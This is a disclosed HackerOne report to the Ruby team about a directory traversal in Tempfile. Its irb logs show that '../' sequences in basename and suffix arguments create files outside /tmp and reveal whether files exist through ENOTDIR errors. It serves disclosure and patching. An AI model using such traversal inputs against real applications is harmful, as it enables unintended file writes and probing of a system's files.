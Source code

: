 # Unintentional file creation caused at Tempfile with directory traversal

## Report Details
- **Report ID**: 302298
- **URL**: https://hackerone.com/reports/302298
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2018-01-04T05:45:49.237Z
- **Disclosed**: 2018-04-01T09:12:04.817Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
The Tempfile argument of `basename` can use `../` without escaping.
Therefore, directory traversal may occur and unintended files may be generated.


#### create file patern

```log
[vagrant@localhost ~]$ ls .
[vagrant@localhost ~]$ irb
irb(main):001:0> require 'tempfile'
=> true

irb(main):002:0> Tempfile.open(['../../home/vagrant/', '.red'])
=> #<Tempfile:/tmp/../../home/vagrant/20180103-4697-uwqiop.red>
irb(main):003:0> `ls`
=> "20180103-4697-uwqiop.red\n"

irb(main):004:0> Tempfile.new("/../../home/vagrant/green")
=> #<Tempfile:/tmp/../../home/vagrant/green20180103-4697-1wbl81o>
irb(main):005:0> `ls`
=> "20180103-4697-uwqiop.red\ngreen20180103-4697-1wbl81o\n"

irb(main):006:0> Tempfile.create("/../../home/vagrant/blue") {|f| p f.path}
"/tmp/../../home/vagrant/blue20180103-4697-1udvlji"
=> "/tmp/../../home/vagrant/blue20180103-4697-1udvlji"

# It can not be created because suffix specifies a directory that does not exist.
irb(main):007:0> Tempfile.open(['hoge', '/../../home/vagrant/bar'])
Traceback (most recent call last):
        9: from /home/vagrant/.rbenv/versions/2.5.0/bin/irb:11:in `<main>'
        8: from (irb):7
        7: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:291:in `open'
        6: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:291:in `new'
        5: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:131:in `initialize'
        4: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tmpdir.rb:126:in `create'
        3: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `block in initialize'
        2: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `open'
        1: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `initialize'
Errno::ENOENT (No such file or directory @ rb_sysopen - /tmp/hoge20180103-4697-utss0s/../../home/vagrant/bar)
```

#### If the file exists

```log
[vagrant@localhost ~]$ ls
test
[vagrant@localhost ~]$ irb
irb(main):001:0> require 'tempfile'
=> true
irb(main):002:0> Tempfile.new("/../../home/vagrant/test/xxx")
Traceback (most recent call last):
        8: from /home/vagrant/.rbenv/versions/2.5.0/bin/irb:11:in `<main>'
        7: from (irb):2
        6: from (irb):2:in `new'
        5: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:131:in `initialize'
        4: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tmpdir.rb:126:in `create'
        3: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `block in initialize'
        2: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `open'
        1: from /home/vagrant/.rbenv/versions/2.5.0/lib/ruby/2.5.0/tempfile.rb:133:in `initialize'
Errno::ENOTDIR (Not a directory @ rb_sysopen - /tmp/../../home/vagrant/test/xxx20180103-4783-1f4l2ox)
```

## Impact

An unintended file may be generated in places other than the assumed directory.
It is possible to confirm the existence of the file by using the occurrence or not a directory error.

## Attachments
No attachments
